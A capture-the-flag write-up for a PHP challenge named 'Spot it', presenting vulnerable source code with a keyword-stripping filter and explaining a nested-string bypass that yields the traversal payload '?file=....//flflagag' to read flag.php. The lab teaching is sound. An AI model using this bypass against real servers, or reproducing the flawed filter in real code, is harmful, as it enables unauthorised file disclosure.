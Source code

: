 <font size="10">Spot it</font>

28<sup>th</sup> March 2024

​**Challenge Author:** Kudo

​**Difficulty:** <font color=Orange>Medium</font>

​**Classification:** Official

# Synopsis

- The challenge involves a PHP code to be reviewed to find LFI vulnerability and escape some filtration on the payload.

## Description

* I have given you the source code, is that enough for you ?
* *Note: The flag file is `flag.php` which exsists in the parent directory.*

## Skills Required

- Solid knowledge about PHP
- Knowledge about Local File Inclusion (LFI)
- Ability to look for online payloads

## Skills Learned

- Source Code Analysis
- LFI filtration bypass

## Application Overview

We are presented with the source code, written in `PHP`:

```php
<?php

if(isset($_GET))
{
  if (isset($_GET['file']))
  {
    $input = $_GET['file'];

    if(preg_match("/flag|filter|base|data|\.\.\/|resource/i", $input))
    {
      echo "<br><br><h3 style='text-align: center; color: red'>Hacker Detected !!</h3>";

      $input = preg_replace("/flag|filter|base|http|\.\.\/|data|resource/i", "", $input);
    }

    echo file_get_contents($input);
    echo "<br><br>";

  }
}
else
{
  echo "Only GET requests are allowed here";
}

highlight_file("index.php");

?>
```

## Code Break Down

After inspecting the code, it does the following:
- It checks if we have used a GET parameter named `file` in our request.
- If our parameter value contains any of these words, case insensitively: (flag, filter, base, http, ../ , data, resource), then it will remove it.
- It will get the content of the resulted filename, after filtration and removal, and render it back to us.

## Exploitation

Since we know that the file is in the parent directory, we must use the `../` to get back to the previous folder. However, as soon as it looks for it, it will remove it from our payload. 
But what if doubled them, so after the removal, it will result in our desired form, as shown below:

```
../banana => banana

....//banana
..(../)/banana   () is discovered and removed
../banana
```

And the same is applied for the word "flag", since it is being filtered also.

```
../flag => ../

../flflagag
../fl(flag)ag   () is discovered and removed
../flag
```

So, the final payload for us will be like this:
```
?file=....//flflagag
```
And the output is our FLAG:

![img](./assets/flag.png)
